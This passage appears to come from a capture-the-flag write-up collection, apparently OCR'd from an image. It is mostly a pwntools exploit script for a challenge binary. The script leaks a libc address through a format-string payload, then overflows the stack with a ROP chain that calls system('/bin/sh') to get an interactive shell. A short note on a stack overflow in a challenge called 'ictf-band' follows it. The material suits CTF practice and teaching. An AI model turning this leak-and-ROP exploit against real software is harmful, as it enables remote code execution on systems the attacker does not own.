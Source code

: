 ```python
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))

r = start()
if args.D:
    debug(r, [0x1273])


payload = b''
payload += b'|%3$p|'
payload = payload.ljust(0x108, b'\x00')
payload += b'\x44'
r.send(payload)
r.recvuntil(b'|')
leak = int(r.recvuntil(b'|', True), 16)
base = leak - 0x114992
dbg('base')
system = base + 0x50d60
rdi = base + 0x001bc021
binsh = base + 0x1d8698

payload = b''
payload = payload.ljust(0x108, b'\x00')
payload += flat(rdi+1, rdi, binsh, system)

r.send(payload)
r.interactive()
r.close()
```

# ictf-band
We have a stack overflow at the end of the main loop. It looks like we just have a leak.
